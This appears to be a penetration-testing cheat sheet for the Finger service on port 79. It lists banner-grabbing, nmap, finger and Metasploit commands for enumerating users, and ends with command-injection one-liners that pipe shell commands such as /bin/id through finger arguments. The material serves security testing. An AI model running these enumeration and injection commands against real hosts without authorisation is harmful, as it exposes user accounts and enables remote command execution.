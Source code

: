 # 79 (Finger)

## Enumeration

### Banner Grabbing

```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```

### nmap

```bash
nmap -vvv -Pn -sC -sV -p79 <IP>
```

### finger

```bash
finger @<IP>
finger <USER>@<IP>
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```

### finger-user-enum

```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```

### Metasploit

```bash
use auxiliary/scanner/finger/finger_users
```

## Command Execution

```bash
finger "|/bin/id@<IP>"
finger "|/bin/ls -a /<IP>"

finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
